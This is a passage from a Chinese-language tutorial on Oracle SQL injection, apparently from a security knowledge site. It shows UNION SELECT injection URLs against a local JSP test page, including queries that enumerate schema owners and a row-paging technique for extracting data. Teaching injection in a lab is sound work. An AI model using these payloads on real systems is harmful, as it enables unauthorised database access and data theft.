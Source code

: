 ```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,2,NULL,NULL FROM dual--

```

![enter image description here](http://drops.javaweb.org/uploads/images/98ec4a6c9cb3515ee99da7707abef8965c8efffa.jpg)

Oracle当中正确的注入方式用NULL去占位在我们未知哪个字段是什么类型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL,NULL,NULL,NULL FROM dual--

```

当已知第一个字段是整型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,NULL,NULL,NULL FROM dual--

```

SQL执行后的占位效果： ￼![enter image description here](http://drops.javaweb.org/uploads/images/47911726aa8b22abc426b39db1fcfc253d45fb3d.jpg)

根据我们之前注入Mysql的经验，我们现在要尽可能多的去获取服务器信息和数据库，比如数据库版本、权限等。

在讲Mysql注入的时候已经说道要合理利用工具，在Navicat客户端执行`select * from session_roles`结果： ￼![enter image description here](http://drops.javaweb.org/uploads/images/871bf77cb2a71119aad5f31bb2df78c841e4f76c.jpg)

##### Oracle查询分页tips：

不得不说Oracle查询分页的时候没有Mysql那么方便，Oracle可不能limit 0,1而是通过三层查询嵌套的方式实现分页(查询第一条数据“>=0<=1”取交集不就是1么？我数学5分党，如果有关数学方面的东西讲错了各位莫怪)：

```
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >= 0 

```

![enter image description here](http://drops.javaweb.org/uploads/images/097131c55ee352e5acec71aaf876f956ff7d9887.jpg)

在Oracle里面没有类似于Mysql的group_concat,用分页去取数据，不过有更加简单的方法。

##### 用UNION SELECT 查询：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32)) FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)--

```

![enter image description here](http://drops.javaweb.org/uploads/images/99849ac2e7e3a0836c83566b350a58d718180c34.jpg)

￼不过我得告诉你，UNION SELECT查询返回的是多个结果，而在正常的业务逻辑当中我们取一条新闻是直接放到对应的实体当中的，比如我们查询的wooyun的厂商表：corps，那么我们做查询的很有可能是抽象出一个corps对象，在DAO层取得到单个的参数结果集，如果有多个要么报错，要么取出第一条。然后再到controller层把查询的结果放到请求里面。最终在输出的时候自然也就只能拿到单个的corps实体，这也是视图层只做展示把业务逻辑和视图分开的好处之一，等讲到MVC的时候试着给不懂的朋友解释一下。

再来看一下我们丑陋的在页面展示数据的代码： ￼![enter image description here](http://drops.javaweb.org/uploads/images/673c6bc870ef037aa8c883dd09dc1ba54fda88a7.jpg)

